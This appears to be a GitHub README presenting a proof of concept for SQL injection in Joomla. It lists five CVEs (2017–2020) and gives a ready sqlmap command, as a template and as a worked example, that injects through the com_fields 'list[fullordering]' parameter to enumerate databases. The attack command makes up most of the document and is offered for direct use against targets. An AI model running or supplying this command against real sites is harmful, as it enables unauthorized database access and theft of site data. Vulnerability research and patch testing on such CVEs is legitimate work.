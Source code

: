 # Joomla-SQLinjection PoC

1. CVE-2020-10243

2. CVE-2019-19846

3. CVE-2018-8045

4. CVE-2018-6376

5. CVE-2017-8917
## Detecting:
![image](https://user-images.githubusercontent.com/24661746/77494259-ddd35680-6e77-11ea-8331-106c89b48f7c.png)
## Sqlmap:
sqlmap -u "[your taget]/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=*" --dbms=mysql --technique=E --dbs
## Example
sqlmap -u "http://192.168.119.128/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=*" --dbms=mysql --technique=E --dbs

Reference:
1. https://github.com/HoangKien1020/CVE-2020-10243
2. https://xz.aliyun.com/t/6990
